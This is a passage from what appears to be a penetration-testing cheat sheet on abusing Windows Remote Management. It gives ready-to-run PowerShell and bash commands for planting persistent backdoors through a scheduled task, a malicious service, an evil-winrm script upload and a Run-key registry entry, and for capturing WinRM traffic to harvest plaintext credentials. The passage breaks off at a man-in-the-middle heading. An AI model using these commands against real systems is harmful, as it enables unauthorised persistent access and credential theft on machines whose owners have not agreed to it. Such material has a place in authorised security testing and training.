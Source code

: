 #### Creating Scheduled Tasks

* **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

```powershell
schtasks /create /tn "WinRM Backdoor" /tr "powershell.exe -Command 'Start-Process powershell.exe -ArgumentList Enter-PSSession -ComputerName <target_ip> -UseSSL'" /sc onstart
```

* **Description:** Schedules a task to re-enable or maintain a persistent WinRM session upon system reboot.

#### Creating Services

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    New-Service -Name "MaliciousWinRM" -Binary "malicious.exe" -DisplayName "WinRM Backup"
    ```
* **Description:** Register a malicious service that provides persistent access through WinRM.

#### Installing Backdoors

*   **Tool:** \[\[Evil-WinRM Cheat Sheet]]

    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -s backdoor.ps1
    ```
* **Description:** Executes a PowerShell script to install a backdoor on the remote machine for persistent access.

#### Backdoor Creation

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Set-ItemProperty -Path 'HKLM:\Software\Microsoft\Windows\CurrentVersion\Run' -Name 'Backdoor' -Value 'C:\backdoor.exe'
    ```
* **Description:** Configures a persistent backdoor to be executed on startup, ensuring continued access even if WinRM is disabled.

### Credential Harvesting

#### Packet Capture

*   **Tool:** \[\[Wireshark]]

    ```bash
    wireshark -i <interface> -f "tcp port 5985"
    ```
* **Description:** Capture traffic and extract plaintext credentials.

#### Man-in-the-Middle (MITM) Attack

*   **Tool:** \[\[BetterCap Cheat Sheet]]
